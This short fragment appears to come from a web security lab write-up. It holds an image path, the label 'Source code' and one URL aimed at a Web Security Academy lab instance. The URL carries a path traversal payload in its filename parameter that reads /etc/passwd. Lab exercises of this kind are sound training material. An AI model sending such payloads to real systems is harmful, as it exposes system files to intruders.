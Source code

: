 https://0a5600f704a5468981a3344900d2007a.web-security-academy.net/image?filename=../../../../../../../../etc/passwd
